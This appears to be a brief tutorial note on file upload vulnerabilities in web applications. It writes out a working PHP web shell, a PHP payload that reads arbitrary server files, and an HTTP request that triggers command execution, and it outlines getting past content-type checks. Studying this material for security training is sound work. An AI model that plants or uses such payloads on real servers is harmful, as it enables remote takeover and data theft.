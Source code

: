 # What are file upload vulnerabilities?
File upload vulnerabilities are when a web server allows users to upload files to its filesystem without sufficiently validating things like their name, type, contents, or size. Failing to properly enforce restrictions on these could mean that even a basic image upload function can be used to upload arbitrary and potentially dangerous files instead. This could even include server-side script files that enable remote code execution.

In some cases, the act of uploading the file is in itself enough to cause damage. Other attacks may involve a follow-up HTTP request for the file, typically to trigger its execution by the server.

# Tip
The Content-Type response header may provide clues as to what kind of file the server thinks it has served. If this header hasn't been explicitly set by the application code, it normally contains the result of the file extension/MIME type mapping.

# 1. Exploiting unrestricted file uploads to deploy a web shell
## 1.1. Web shell
A web shell is a malicious script that enables an attacker to execute arbitrary commands on a remote web server simply by sending HTTP requests to the right endpoint.
## 1.2. Execution
- Read files: <?php echo file_get_contents('/path/to/target/file'); ?>
- Get webshell: <?php echo system($_GET['command']); ?>
- RCE: GET /example/exploit.php?command=id HTTP/1.1

# 2. Exploiting flawed validation of file uploads
# 2.1. Flawed file type validation
Modify "content-type" header of each part of "multipart/form-data" -> Use Burp Repeater -> Observe


